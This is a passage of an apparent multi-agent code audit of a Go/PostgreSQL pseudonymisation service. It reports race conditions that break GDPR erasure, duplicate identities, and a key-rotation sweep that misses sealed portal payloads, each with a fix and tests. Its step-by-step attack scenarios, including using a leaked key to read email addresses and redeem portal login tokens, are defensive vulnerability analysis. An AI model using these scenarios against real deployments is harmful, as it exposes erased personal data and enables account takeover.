`cmd/sunder/import.go:426-431` does the opposite - raw `INSERT` with no `ON CONFLICT` for the email/phone/name/phone_suffix kinds, so 23505 surfaces and the batch retries at import.go:325-333. The correct shape exists in the codebase; the register path is the one that departs from it.

**Why it matters.** This breaks the invariant the entire identity model rests on, in the `persons` table, while the index still reports it as held.

**Failure / attack scenario.** Two concurrent `POST /v1/contacts` for the same email E in the same scope - a double-submit, an at-least-once integration retry, or two replicas fed by the same queue. `READ COMMITTED` throughout.

1. **TxA** BEGIN. Runs the dedup SELECT (contacts.go:295) -> 0 rows, `found=false`.
2. **TxB** BEGIN. Runs the same SELECT -> 0 rows, because TxA is uncommitted. `found=false`.
3. **TxA**: `INSERT INTO persons (id) VALUES (A)`. Then `INSERT INTO person_tokens (A,'email',tokE) ON CONFLICT DO NOTHING` -> speculative insertion taken, `INSERT 0 1`.
4. **TxB**: `INSERT INTO persons (id) VALUES (B)` -> succeeds; a fresh v4 UUID cannot conflict.
5. **TxB**: `INSERT INTO person_tokens (B,'email',tokE) ON CONFLICT DO NOTHING` -> **blocks** on TxA's speculative-insertion lock.
6. **TxA**: `ensureCID` -> CID_A; `mergeIntoBlob` writes the blob, which contains `attrs["email"]` and `attrs["name"]` set by `storeIndexed` (contacts.go:232-233) and contacts.go:215; `AppendTx`; **COMMIT**.
7. **TxB** unblocks. The arbiter index now holds A's row, so `DO NOTHING` yields `INSERT 0 0` and **no error**.
8. **TxB** continues: `ensureCID` -> CID_B, a fresh `cids` row for person B in the same scope; `mergeIntoBlob` writes a full blob containing the same email, phone and name; `AppendTx`; **COMMIT**.

Both callers receive 201. Caller B receives CID_B.

This was verified empirically on PostgreSQL 14.23 against the exact schema (`persons` + `person_tokens` + `person_tokens_ident_uq`): B reported `INSERT 0 0`, both `persons` rows committed, and only A's token row exists.

**Impact.**

1. **Article 17 failure, permanent.** `GDPR.EraseWithCascade` -> `personForClientCID` -> `erasePerson` operates on one `person_id`. A privacy officer erasing by the CID they can *find* - via `POST /v1/lookup`, which resolves the email token to person A only (lookup.go:141-146), or via `Portal.findPersonByEmail` (portal.go:337-366), which does the same - wipes A and leaves B's `cids.pii_encrypted` intact, holding the subject's email, phone and name indefinitely. Person B is reachable only by whoever still holds CID_B, so the data is effectively unerasable through any API. `RunRetention` only reaches it if that scope has a `retention_policies` row whose TTL elapses.
2. **Permanent invisibility.** Person B is invisible to `POST /v1/lookup`, to the portal, and to every future dedup, so it can never be found by the identifier again and every subsequent registration for E attaches to A.
3. **Identity fragmentation.** Consents, links, OTI handoffs and value tokens attach to whichever person the caller's CID names. Consent withdrawn on A does not gate reads on B. `GDPR.Access` returns a partial answer, split across two pseudonyms.
4. **Silent.** No error, no metric, no log, no audit signal distinguishes this from a normal registration.

**Root cause.** `ON CONFLICT DO NOTHING` is used to express two different intents with one clause: "this row is already here, be idempotent" (the PK `(person_id, kind, token)`) and "this identifier already belongs to somebody else" (the partial unique `(kind, token)`). Only the first is idempotent. The second means the dedup decision made microseconds earlier is now wrong and the whole transaction must be redone - and suppressing it destroys the only signal the retry loop was written to consume. The comment at contacts.go:310-312 justifies the clause on the grounds that "an existing owner is never silently stolen", which is true and is exactly the wrong remedy: the loser must abort, not proceed.

**Fix.** Split the two conflict cases so the ownership conflict surfaces. Use an explicit arbiter that absorbs only the idempotent case:

```sql
INSERT INTO person_tokens (person_id, kind, token, key_version)
VALUES ($1,$2,$3,$4)
ON CONFLICT (person_id, kind, token) DO NOTHING
```

This leaves `person_tokens_ident_uq` unarbitrated, so a foreign owner raises 23505, `registerTx` aborts, and the existing retry at contacts.go:242-245 re-runs the dedup SELECT and finds the winner - the behaviour the comment already claims. Keep the current unarbitrated `DO NOTHING` only for the non-unique kinds `name`, `name_phonetic`, `phone_suffix`.

If the arbiter change is undesirable, the equivalent minimal fix is to make the dropped row observable:

```go
tag, err := tx.Exec(ctx, `INSERT INTO person_tokens (person_id, kind, token, key_version)
    VALUES ($1,$2,$3,$4) ON CONFLICT DO NOTHING`, personID, ins.kind, tok, ins.set.writeVer)
if err != nil { return "", err }
if tag.RowsAffected() == 0 && (ins.kind == "email" || ins.kind == "phone") && !found {
    return "", errDedupRaceLost
}
```
and extend the predicate at contacts.go:243 to `errors.Is(err, errDedupRaceLost) || pgErr.Code == "23505"`. When `found` is true the row legitimately already belongs to this person, so `RowsAffected()==0` is expected there.

In both variants, raise the retry budget above a single attempt - more than two writers can pile up - and make the loop's exit condition explicit rather than relying on 23505 never recurring.

**Test required.**
1. `TestConcurrentRegisterSameEmailYieldsOnePerson` - integration against `internal/testutil.NewDB`. Launch N=8 (or 50) goroutines calling `Contacts.Register` with the identical email, released by a common barrier. Assert every returned cid is the same string and `SELECT count(*) FROM persons` == 1. Fails today.
2. `TestRegisterDedupRaceInterleaved` - drive two pgx transactions manually through `registerTx`'s exact statement sequence in the order A-select, B-select, A-insert-token, B-insert-token, A-commit, B-commit, then assert `SELECT count(*) FROM persons` == 1.
3. `TestEraseAfterDedupRaceLeavesNoBlob` - after the concurrent registrations, run `GDPR.Erase` on the returned cid and assert `SELECT count(*) FROM cids WHERE pii_encrypted IS NOT NULL` == 0. Fails today because person B's blob survives.

---

### GDPR-ERASURE-2 - `keys rekey` re-creates `person_tokens` for a person erased mid-sweep, and `Lookup` has no `erased_at` filter, so the erased person becomes permanently searchable by email, phone and name again

**Severity:** HIGH | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** SECURITY

**Location:** `internal/service/rekey.go:189-238` - the `insert` closure, INSERT at `:196-202`; batch selection at `rekey.go:53-55`. Exploited through `internal/service/lookup.go:140` and `:225-226` - `Contacts.Lookup`.

**Problem.** After the blob work, `rekeyPerson` writes newest-version search tokens for every identifier it recovered:

```sql
INSERT INTO person_tokens (person_id, kind, token, key_version)
VALUES ($1,$2,$3,$4) ON CONFLICT DO NOTHING
```

(rekey.go:196-199), with `personID` taken from the batch selected once at rekey.go:54 (`SELECT id FROM persons WHERE erased_at IS NULL ...`). There is no lock, no transaction, and no re-check of `persons.erased_at`. Unlike GDPR-ERASURE-1 this path has **no guard of any kind**, so it fires on every `keys rekey` run regardless of `-reencrypt-pii` and regardless of which KEK version the row was on. Any erasure landing after the blob read and before the token inserts resurrects the person's email, phone, name, and - when `SUNDER_SEARCH_FUZZY_NAME` / `SUNDER_SEARCH_PHONE_SUFFIX` are on - `name_phonetic` and `phone_suffix` tokens.

Nothing ever removes them again. I grepped every `DELETE` against `person_tokens` in the tree:
- `gdpr.go:516` - the Article 17 path, which already ran.
- `gdpr.go:835` - `RunRetention`'s cleanup, gated on `wipedCIDs` from that same run. An erased person's `cids` already have `pii_encrypted IS NULL`, so the wipe `UPDATE` at gdpr.go:786-791 can never select them again and they can never re-enter `wipedCIDs`.
- `keyring.go:214` - `DELETE ... WHERE kind=$1 AND key_version=$2` on retire, which cannot reach rows written under the **newest** version.

The rows are permanent.

They are immediately usable, because `Contacts.Lookup` never filters tombstones. The person query is `SELECT DISTINCT pt.person_id FROM person_tokens pt WHERE pt.kind = $1 AND pt.token = ANY($2)` (lookup.go:140) with no join to `persons`, and the scope resolution is `SELECT cid FROM cids WHERE person_id=$1 AND scope=$2` (lookup.go:225-226) - also unfiltered. `cids` rows are deliberately retained as tombstones after erasure, so the lookup returns HTTP 200 with the erased person's pseudonym.

`Lookup` is the asymmetric one. `personForClientCID` (contacts.go:462), `GetAttribute` (contacts.go:507), `Portal.findPersonByEmail` (portal.go:353) and `Portal.SessionPerson` (portal.go:447) all carry the `erased_at IS NULL` predicate.

**Why it matters.** Deleting `person_tokens` at erasure is the mechanism that destroys the ability to re-identify a person from an identifier. This defect both re-creates the tokens and leaves the one read path that consumes them unguarded.

**Failure / attack scenario.**
1. **T0** - `sunder keys rekey`, with or without `-reencrypt-pii`, selects person P in a batch at rekey.go:54. P is live at this instant.
2. **T1** - `rekeyPerson(P)` reads P's blobs (rekey.go:108) and decrypts them (rekey.go:143, an out-of-process signer round trip). `emails={alice@example.com}`, `phones={+38591...}`, `names={alice novak}` are now held in Go memory.
3. **T2** - `POST /v1/dsr/erase` for P commits: `DELETE FROM person_tokens WHERE person_id=P` (gdpr.go:516), blob NULLed, `persons.erased_at` set. The officer's report says the person is forgotten. An `erasure_events` row per scope is queued.
4. **T3** - `rekeyPerson` reaches the `insert` closure (rekey.go:189) and executes `INSERT INTO person_tokens (person_id,kind,token,key_version) VALUES (P,'email',<HMAC_v2(alice@example.com)>,'v2') ON CONFLICT DO NOTHING`, and the same for `phone`, `name`, and the two fuzzy kinds when enabled. Nothing blocks: the rows were deleted, so there is no conflict and no lock to wait on.
5. **T4** - any client holding the `lookup` action calls `POST /v1/lookup {"email":"alice@example.com"}`. lookup.go:140 matches the resurrected token; lookup.go:225 finds P's surviving `cids` row for that scope; the handler returns `200 {"cid":"<P's pseudonym>"}` and writes a `lookup` audit row with `matched:true`. Nothing in the request path consults `erased_at`.
6. The condition never clears. `RunRetention`'s `person_tokens` DELETE is keyed on `wipedCIDs` from the same run, and P's CIDs can never appear there again because their `pii_encrypted` is already NULL. `sunder keys retire` will happily migrate the rows forward at the next rotation.

**Impact.** Article 17 is not honoured. After the erasure, an arbitrary email address, phone number or name can still be confirmed as belonging to a registered person of this vault, and the caller receives that person's stable pseudonym - exactly the re-identification capability that deleting `person_tokens` exists to destroy. The pseudonym then keys the surviving `audit`, `audit_read_buckets`, `erasure_events`, `oti` and `cids` rows, so the erased person remains linkable across the entire retained data set. The condition is permanent and silent: no metric, no audit row and no operator report distinguishes a resurrected token from a legitimate one.

**Root cause.** Two independent omissions that compose. (1) `Rekey` treats `erased_at IS NULL` as a batch-**selection** filter rather than a per-write invariant, so every write in `rekeyPerson` operates on a liveness snapshot that is arbitrarily stale - one batch of up to `batch` persons, each costing several signer round trips. (2) `Contacts.Lookup` is the only cid-producing read path with no tombstone predicate, relying entirely on the token rows having been deleted - an assumption (1) breaks.

**Fix.** Both changes are needed.

(a) `rekey.go` - scope the token inserts to a live person inside the statement, so no snapshot is trusted:
```sql
INSERT INTO person_tokens (person_id, kind, token, key_version)
SELECT $1,$2,$3,$4
 WHERE EXISTS (SELECT 1 FROM persons WHERE id=$1 AND erased_at IS NULL)
ON CONFLICT DO NOTHING
```
Or run each person's whole rekey inside a transaction that opens with `SELECT 1 FROM persons WHERE id=$1 AND erased_at IS NULL FOR UPDATE` and aborts on `ErrNoRows`.

(b) `lookup.go:140` - add the tombstone predicate as defence in depth, so no stray token row can ever re-expose a forgotten person:
```sql
SELECT DISTINCT pt.person_id
  FROM person_tokens pt
  JOIN persons pe ON pe.id = pt.person_id AND pe.erased_at IS NULL
 WHERE pt.kind = $1 AND pt.token = ANY($2)
```
The existing `narrow(...)` sub-EXISTS clauses can stay unchanged; the outer join is sufficient.

(c) One-off cleanup for existing deployments, wired into `retention run`:
```sql
DELETE FROM person_tokens pt USING persons p
 WHERE p.id = pt.person_id AND p.erased_at IS NOT NULL;
```

**Test required.**
1. Integration, race: register P with email and phone; start `rekeyPerson(P)` with a test hook that pauses between the blob decrypt and the `insert` closure; erase P from a second goroutine; release the pause. Assert `SELECT count(*) FROM person_tokens WHERE person_id=P` == 0.
2. Unit/integration, no race needed: register P, erase P, then INSERT a `person_tokens` row for P by hand to simulate the resurrection, and assert `Contacts.Lookup` by that identifier returns `ErrNotFound` rather than P's cid. This is the test that would have caught the missing predicate independently of the rekey path.
3. Add `DELETE FROM person_tokens ... erased_at IS NOT NULL` to the retention sweep test.

---

### GDPR-ERASURE-1 - `keys rekey -reencrypt-pii` resurrects the PII blob of a person erased or retention-wiped mid-sweep: the staleness guard COALESCEs the erasure's NULL back to the value it is comparing against

**Severity:** HIGH | **Confidence:** CONFIRMED | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY

**Location:** `internal/service/rekey.go:107-187` - `Contacts.rekeyPerson`; unlocked read at `:108-110`, decrypt at `:143`, re-encrypt at `:166`, guarded write at `:174-177`. Batch liveness filter at `rekey.go:54`. Interacts with `internal/service/gdpr.go:512-514` - `erasePerson` blob wipe - and `internal/service/gdpr.go:786-791` - `RunRetention` blob wipe.

**Problem.** `rekeyPerson` reads a person's blobs with a plain, unlocked statement:

```sql
SELECT cid, COALESCE(pii_encrypted,''::bytea), COALESCE(pii_key_id,'v1'), COALESCE(pii_alg,'aes256gcm')
  FROM cids WHERE person_id=$1
```

(rekey.go:108-110), decrypts them in memory (`:143`, a signer round trip), re-encrypts them (`:166`, a second round trip) and only then writes them back (`:174-177`). It takes no row lock and never re-checks `persons.erased_at`; `Rekey`'s only erasure filter is the batch `SELECT id FROM persons WHERE erased_at IS NULL` at rekey.go:54, evaluated once per batch, before any of that work.

The write is protected by an optimistic guard:

```sql
UPDATE cids SET pii_encrypted=$2, pii_key_id=$3, pii_alg=$4
 WHERE cid=$1 AND COALESCE(pii_key_id,'v1')=$5 AND COALESCE(pii_alg,'aes256gcm')=$6
```

That guard cannot see an erasure. `erasePerson` wipes with `UPDATE cids SET pii_encrypted=NULL, pii_key_id=NULL, pii_alg='aes256gcm'` (gdpr.go:513). Post-wipe the guard evaluates `COALESCE(NULL,'v1')` = `'v1'` and `COALESCE('aes256gcm', ...)` = `'aes256gcm'` - **exactly** the values a not-yet-rekeyed row carries, which are exactly the values `$5`/`$6` hold. The guard therefore matches the tombstoned row and the UPDATE succeeds, writing the person's full attribute blob back into `cids.pii_encrypted` under the new KEK.

`RunRetention` is worse: it wipes with `SET pii_encrypted=NULL, pii_key_id=NULL` (gdpr.go:786) and does not touch `pii_alg` at all, so the alg half of the guard always matches.

This is the mainline configuration for the command. `keys rekey -reencrypt-pii` is the documented completion step after rotating `pii-kek` v1 -> v2, so every target row carries `pii_key_id='v1'` (seeded by migration 0002) and `pii_alg='aes256gcm'` (migration 0008 default), and the re-encrypt branch is entered because `b.keyID != newestKEK` (rekey.go:165).

`rekeyPerson` is the **only** writer of `cids.pii_encrypted` that does not carry the tombstone predicate inside its locking write. `mergeIntoBlob` uses `... JOIN persons p ON p.id=c.person_id WHERE c.cid=$1 AND p.erased_at IS NULL FOR UPDATE OF c, p` (contacts.go:585-590) with a comment explaining the EvalPlanQual subtlety; `Files.Upload` (files.go:276-278) and `tokenizeInTx` (valuetoken.go:385-388) do the same. The codebase knows the pattern; rekey is the one writer that skipped it.

**Why it matters.** The operator is following the documented remedy for a rotated or compromised KEK, and the command's own report tells them it succeeded.

**Failure / attack scenario.** Deployment has rotated `pii-kek` to v2 and is running `sunder keys rekey -reencrypt-pii` against the live database. Person P has cid C in scope `crm` with `pii_key_id='v1'`, `pii_alg='aes256gcm'`.

1. **T0** - rekey: `SELECT id FROM persons WHERE erased_at IS NULL ...` returns P among the batch (rekey.go:54).
2. **T1** - rekey: `rekeyPerson(P)` runs the blob SELECT (rekey.go:108) and holds C's ciphertext, `keyID='v1'`, `alg='aes256gcm'` in Go memory. **No lock taken.**
3. **T2** - rekey: `c.PII.Decrypt(...)` (rekey.go:143), a signer IPC round trip. `attrs` now holds the plaintext `{name, email, iban, ...}`.
4. **T3** - a privacy officer calls `POST /v1/dsr/erase` for C. `erasePerson` locks `cids` then `persons`, NULLs the blob (gdpr.go:513), deletes `person_tokens`, `cid_blob_versions`, `value_tokens`, `shared_records`, `consents`, sets `persons.erased_at=now()`, and **COMMITS**. The API returns 200; one `erasure_events` row per scope is queued. Article 17 is, from the officer's point of view, discharged.
5. **T4** - rekey: `c.PII.Encrypt(ctx, C, 'v2', attrs)` (rekey.go:166) re-seals the plaintext it still holds.
6. **T5** - rekey: the guarded UPDATE runs. The tombstoned row's `pii_key_id` is NULL, so `COALESCE` gives `'v1'` and matches `$5`; `pii_alg` is `'aes256gcm'` and matches `$6`. `RowsAffected()==1`, `stats.BlobsReenc++`, and the operator sees a clean "N blobs re-encrypted" report.

If rekey blocks on `erasePerson`'s row lock instead of racing ahead of it, the outcome is identical: Postgres re-evaluates the qual against the updated tuple after the erasure commits, and it still passes.

**Post-state:** `persons.erased_at` is set, but `cids.pii_encrypted` for C again holds the person's complete attribute blob, decryptable with the **current active** KEK.

**Impact.** Erased personal data is silently restored to the live database under the current key. The controller still holds and can decrypt every attribute of a person who exercised Article 17 - in production data, in every subsequent backup, and to anyone with database or DBA access. The erasure audit row, the `erasure_events` webhooks and the `dsr.erase` response all assert the data is gone. The same defect resurrects retention-wiped blobs (Article 5(1)(e) storage limitation), and there it fires unconditionally because `RunRetention` does not touch `pii_alg`. The resurrected blob is not readable through the API - `GetAttribute`, `personForClientCID` and the portal all carry `erased_at` predicates - so the harm is retained-in-database and in-backup PII rather than live disclosure. Combined with a `shared_records` row that survived erasure, or with `decryptCID` / `Shares.Fetch`, neither of which has an `erased_at` predicate (contacts.go:552-565, shares.go:112-149), the resurrected values become readable through the API again.

**Root cause.** The optimistic-concurrency guard was designed to detect exactly one class of concurrent writer - "a register or share re-encrypted the row after our read" - and encodes staleness as a `(key_id, alg)` tuple. Erasure's chosen wipe representation, a NULL key id, collapses under the guard's own `COALESCE` defaults onto the pre-rotation tuple, making a tombstone indistinguishable from an untouched row. The deeper cause is the same as GDPR-ERASURE-2: liveness is checked once per batch, not per write.

**Fix.** Put the tombstone predicate inside the write, in the same statement, and lock the serialisation row. Replace rekey.go:174-177 with:

```sql
UPDATE cids c SET pii_encrypted=$2, pii_key_id=$3, pii_alg=$4
  FROM persons p
 WHERE c.cid=$1 AND p.id = c.person_id AND p.erased_at IS NULL
   AND c.pii_encrypted IS NOT NULL
   AND COALESCE(c.pii_key_id,'v1')=$5 AND COALESCE(c.pii_alg,'aes256gcm')=$6
```

The `c.pii_encrypted IS NOT NULL` clause alone closes both the erasure and the retention-wipe case and costs nothing - a wiped row can never be a legitimate re-encrypt target. The `persons` join makes the intent explicit.

Better still, wrap each person's re-encrypt in a transaction that opens with the same locking read `mergeIntoBlob` uses -
`SELECT ... FROM cids c JOIN persons p ON p.id=c.person_id WHERE c.cid=$1 AND p.erased_at IS NULL FOR UPDATE OF c, p` - preserving the `c -> p` lock order `erasePerson` takes, and perform the decrypt/encrypt inside it.

Independently, make the wipe self-evident rather than relying on a sentinel that `COALESCE` can undo: erasure and retention should leave `pii_key_id` alone and rely on `pii_encrypted IS NULL` as the single tombstone marker, which every guard must then test.

**Test required.**
1. Integration, real Postgres: register P with `pii_key_id='v1'`; rotate `pii-kek` to v2; start `rekeyPerson` with an injected pause, or a test-only hook on `PII.Encrypt`, between the blob read and the guarded UPDATE; from a second goroutine run `GDPR.Erase` for P to completion; release the pause. Assert `SELECT pii_encrypted FROM cids WHERE cid=$1` IS NULL and `stats.BlobsReenc == 0`.
2. Repeat with `RunRetention` in place of `Erase` and assert the same. This variant must fire even without the `pii_alg` half of the guard changing.
3. Non-racing unit test: call `rekeyPerson` directly on an already-tombstoned person while holding a stale in-memory blob, and assert zero rows affected.

---

### TOKENS-LOOKUP-5 - OTI verification writes a fresh live PII blob for a person being erased: `ensureCID` and `shareIntoScope` carry no `persons.erased_at` predicate, unlike every other blob writer

**Severity:** HIGH | **Confidence:** LIKELY | **Verdict:** CONFIRMED | **Category:** DATA_INTEGRITY

**Location:** `internal/service/oti.go:335` - `ensureCID` call in `VerifyFull`; `internal/service/oti.go:445-501` - `shareIntoScope`, lock at `:468-470`, blob write at `:496-498`; `internal/service/contacts.go:363-383` - `ensureCID`. Competing path `internal/service/gdpr.go:449-590` - `erasePerson`, opening lock `:461-462`, blob wipe `:509-510`, OTI revoke `:565-568`, idempotency guard `:466-473`.

**Problem.** Every other writer that lands PII on a `cids` row carries the tombstone predicate inside its own locking read. `mergeIntoBlob` uses `... JOIN persons p ON p.id=c.person_id WHERE c.cid=$1 AND p.erased_at IS NULL FOR UPDATE OF c, p` (contacts.go:585-590); `tokenizeInTx` uses `FOR UPDATE OF p` with an explicit erased check (valuetoken.go:385-400); `Files.Upload` locks `FOR UPDATE OF p` with the same predicate (files.go:277).

`VerifyFull` does neither. After the single-use `UPDATE oti SET status='USED' ... WHERE jti=$1 AND status='VALID'` CAS (oti.go:298-303) it performs a plain `SELECT person_id FROM cids WHERE cid=$1` (oti.go:331-333) - unlocked, no join - then `ensureCID`, which INSERTs a brand-new `cids` row for the (person, verifier scope) pair with no reference to `persons.erased_at` (contacts.go:378-381), then `shareIntoScope`, whose only lock is `SELECT ... FROM cids WHERE cid=$1 FOR UPDATE` on the **verifier** cid - `cids` only, no `persons` join, no tombstone predicate (oti.go:468-470) - before writing the copied issuer attributes with `UPDATE cids SET pii_encrypted=$2 ... WHERE cid=$1` (oti.go:496-498).

`grep erased_at internal/service/*.go` confirms `oti.go` is the only blob-writing file in which the string does not appear.

`erasePerson`'s opening lock is `SELECT 1 FROM cids WHERE person_id=$1 FOR UPDATE` (gdpr.go:461-462), which cannot lock a row that does not exist yet. Its blob wipe `UPDATE cids SET pii_encrypted=NULL ... WHERE person_id=$1` is at gdpr.go:509-510, and its only OTI fence - `UPDATE oti SET status='REVOKED' WHERE status='VALID' AND cid IN (...)` - is the **last** mutation before the tombstone, at gdpr.go:565-568.

So `VerifyFull` relies entirely on that revoke to fence it out, and the revoke is the last statement of a long erasure transaction while the verify's own OTI CAS is its **first**.

**Why it matters.** This path both writes PII and **creates** the `cids` row that holds it, so the row is outside the set `erasePerson` enumerated and locked, and outside the set for which `erasure_events` were queued.

**Failure / attack scenario.** Person P has cids only in scope A. A valid OTI `J` was issued for CID_A addressed to scope B - a scope P has never appeared in, which is the canonical handoff. `READ COMMITTED`.

1. **t0** - `T_erase` BEGIN. `SELECT 1 FROM cids WHERE person_id=P FOR UPDATE` locks the one existing row, CID_A. Locks `persons FOR UPDATE`. Shreds the record key, INSERTs into `erasures`, enumerates cids -> `{CID_A / scope A}` (gdpr.go:485-500), INSERTs one `erasure_events` row for scope A.
2. **t1** - `T_erase` runs `UPDATE cids SET pii_encrypted=NULL WHERE person_id=P`, wiping CID_A. It is still executing, and holds no lock on any `oti` row yet.
3. **t2** - `T_verify` BEGIN, from a scope-B client. `UPDATE oti SET status='USED' ... WHERE jti=J AND status='VALID' AND expires_at > now() RETURNING ...` succeeds and row-locks `J`. Nothing blocks it, because `T_erase` has not reached its OTI statement.
4. **t3** - `T_verify` runs `SELECT person_id FROM cids WHERE cid=CID_A` -> P. A plain unlocked SELECT; not blocked.
5. **t4** - `T_verify` `ensureCID(P, scope B)`: the SELECT misses, so `INSERT INTO cids (cid, person_id, scope) VALUES (CID_B, P, 'B') ON CONFLICT (person_id, scope) DO UPDATE ... RETURNING cid` inserts a **new** row. No conflict, nothing to block on - `T_erase`'s `FOR UPDATE` at t0 covered only rows that existed then, and its wipe at t1 has already passed.
6. **t5** - `T_verify` `shareIntoScope` reads the issuer blob and writes the copied attributes into CID_B with `UPDATE cids SET pii_encrypted=... WHERE cid=CID_B` (oti.go:496-498). This involves two signer round trips, which is what makes the window wide relative to `T_erase`'s single wipe statement.
7. **t6** - `T_erase` continues through its deletes and reaches `UPDATE oti SET status='REVOKED' WHERE status='VALID' AND cid IN (...)` (gdpr.go:565-568) -> **BLOCKS** on `T_verify`'s lock of row `J`.
8. **t7** - `T_verify` COMMITs. `T_erase` unblocks; EvalPlanQual re-fetches row `J`, finds `status='USED'`, so the revoke matches 0 rows. `T_erase` sets `persons.erased_at` and COMMITs.

**Post-state:** `persons.erased_at` is set, but a `cids` row CID_B exists in scope B holding a live encrypted blob of the issuer's shared attributes, with **no** `erasure_events` row queued for scope B (the enumeration at gdpr.go:485-500 predates the row) and no way to erase it - a second erasure is refused by the idempotency guard at gdpr.go:466-473 with "person already erased".

**Impact.** Article 17 is not satisfied: personal data of a person who exercised the right to erasure remains stored, encrypted under a live KEK, in a scope that was never notified. It is not readable through the API afterwards, since `GetAttribute` requires `p.erased_at IS NULL` (contacts.go:504-508), so this is retention rather than disclosure - but it is exactly the state erasure exists to prevent, it is undetectable without a manual query, and it is unreachable by the API's own remediation path. `RunRetention` only wipes it if scope B has a `retention_policies` row whose TTL elapses. In the variant where the verifier scope already has a `cids` row, the same interleaving instead produces a lock cycle - `T_verify` wants the `cids` row `T_erase` holds, `T_erase` wants the `oti` row `T_verify` holds - and Postgres kills one transaction with a deadlock, producing a 500 on a legitimate handoff.

**Root cause.** `VerifyFull` outsources its liveness check to `erasePerson`'s OTI revoke, but that revoke is the last mutation of the erasure transaction while the verify's CAS is its first, so the fence is only effective when erasure commits first. The invariant every other writer enforces locally - `persons.erased_at IS NULL` inside the locking read - is missing on the one path that also *creates* `cids` rows.

**Fix.** Add the tombstone predicate to `VerifyFull`'s own transaction, on the `persons` row, immediately after the OTI CAS and before `ensureCID`:

```go
var live bool
err := tx.QueryRow(ctx, `SELECT p.erased_at IS NULL
      FROM cids c JOIN persons p ON p.id=c.person_id
     WHERE c.cid=$1 FOR UPDATE OF p`, issuerCID).Scan(&live)
if err != nil || !live { return nil, ErrTokenInvalid }
```

Locking `persons` rather than `cids` matches `tokenizeInTx`'s documented reasoning and avoids inverting `erasePerson`'s `c -> p` order. Placing it immediately after the CAS makes the two transactions serialise on the `persons` row: either the erasure waits, in which case verify has already committed a row the erasure's own statements can still see, or verify waits and observes the tombstone.

Additionally give `ensureCID` (contacts.go:378-381) and `shareIntoScope` (oti.go:468-470, 496-498) the same `AND p.erased_at IS NULL` join predicate, so no future caller can reintroduce the hole.

**Test required.** Integration test with two transactions driven from the test. Issue an OTI from scope A to a scope B where the person has no cid. Open `T_verify` manually and run the OTI CAS. On a second connection, run a full `GDPR.Erase` for P to completion in a goroutine - it will block on the `oti` row. Complete `T_verify`'s `ensureCID` and `shareIntoScope` and commit. After both commit, assert `SELECT count(*) FROM cids WHERE person_id=P AND pii_encrypted IS NOT NULL` == 0. It is 1 today. A second assertion should check that `SELECT count(*) FROM erasure_events WHERE erasure_id=$1` covers every scope in which P has a `cids` row.

---

### GAP-1 - `keys rekey -reencrypt-pii` never re-seals `portal_outbox.payload`, the one `pii-kek`-sealed store the sweep forgot, leaving plaintext email addresses and live magic-link tokens decryptable by a retired or leaked KEK

**Severity:** HIGH | **Confidence:** POSSIBLE | **Verdict:** PLAUSIBLE | **Category:** SECURITY

> **PLAUSIBLE.** Raised by the completeness critic and not independently re-verified by a second agent. The omission itself (the three-table list in `rekeyVaults`, and `portal_outbox.payload` sealed under `pii-kek` at `portal.go:205`) is read directly from the source; what was **not** independently verified is the retention window arithmetic and the claim that a `PENDING`/`SENDING` payload always still yields a redeemable token at the moment of compromise.

**Location:** `internal/service/rekey.go:248-381` - `Contacts.rekeyVaults`: `value_tokens` at `:251-291`, `person_record_keys` at `:293-333`, `cid_blob_versions` at `:335-380`. `internal/service/rekey.go:34-105` - `Contacts.Rekey`, the only other re-encryption pass, over `cids` only, via `rekeyPerson` at `:107-187`. The omitted writer: `internal/service/portal.go:196-213` - `enqueueMail`, seal at `:205`, INSERT at `:209-211`. Retention at `internal/service/portal.go:662-666` - `PrunePortal`. CLI claim at `cmd/sunder/main.go:632-634`.

**Problem.** Every store sealed under `pii-kek/<version>` is swept by `keys rekey -reencrypt-pii` except one. `rekeyVaults` re-seals exactly three tables - `value_tokens.ciphertext` (rekey.go:252), `person_record_keys.wrapped` (rekey.go:294) and `cid_blob_versions.blob` (rekey.go:341) - and `rekeyPerson` re-encrypts `cids.pii_encrypted`.

`portal_outbox.payload` is sealed with the same `PIIBox` under the same `pii-kek/<keyID>`:

```go
sealed, err := p.Contacts.PII.SealBytes(ctx, "portal-outbox", keyID, plain)   // portal.go:205
...
INSERT INTO portal_outbox (kind, payload, key_id, alg, ...)                    // portal.go:209-211
```

The column and its `key_id`/`alg` companions were added by migration 0016. No statement anywhere in the tree ever rewrites them. `grep -rn portal_outbox internal cmd --include='*.go'` yields exactly ten non-test hits: `portal.go:210` (INSERT), `:232` (claim SELECT), `:267`/`:303`/`:321` (status UPDATEs), `:662`/`:666`/`:668` (prune and reaper), and `gdpr.go:552` (erasure DELETE). **None touches `payload` or `key_id`.**

The cleartext behind that seal is `mailPayload{Email, Token}` (portal.go:186-189) - the data subject's **plaintext email address** plus a portal login or erase token.

`KeyRing.Retire` (keyring.go:194-223) performs no reference check and destroys no material, and `keys rekey` then prints "old versions can now be retired" unconditionally (main.go:633-634).

**Why it matters.** This is the documented cure for a compromised PII KEK, and it tells the operator it worked.

**Failure / attack scenario.**
1. A person uses the privacy portal. `Portal.Start` commits a `portal_outbox` row whose `payload` is sealed under `pii-kek/v1` and whose `key_id='v1'` (portal.go:205-211).
2. The mail is delivered; `settleMail` sets `status='DELIVERED'` (portal.go:321). `PrunePortal` keeps `DELIVERED`/`FAILED`/`NO_MAILER` rows for seven days: `DELETE FROM portal_outbox WHERE status NOT IN ('PENDING','SENDING') AND created_at < now() - interval '7 days'` (portal.go:662).
3. `pii-kek/v1` is disclosed - a backup tape, a Vault compromise, the leaked-KEK scenario that migration 0027 and commit `7855bb9` exist to answer.
4. The operator follows the documented cure: `sunder keys rotate -kind pii-kek`, then `sunder keys rekey -reencrypt-pii`. The sweep re-encrypts `cids`, `cid_blob_versions`, `value_tokens` and `person_record_keys`, prints `old versions can now be retired`, and leaves **every** `portal_outbox` row still carrying `key_id='v1'`.
5. `sunder keys retire -kind pii-kek -version v1` prints success (main.go:606-608). No statement re-seals or deletes the outbox rows.
6. The adversary holding `pii-kek/v1` plus a database read opens every surviving `portal_outbox.payload` with the AAD `"portal-outbox" | v1 | <alg>` (crypto/pii.go:96-103) and recovers the **plaintext email address** of every person who used the portal in the preceding seven days.
7. For any row still `PENDING` or `SENDING` at that moment, the same payload also yields an unredeemed login token, which `Portal.Redeem` (portal.go:415-418) exchanges for a full portal session as that person.

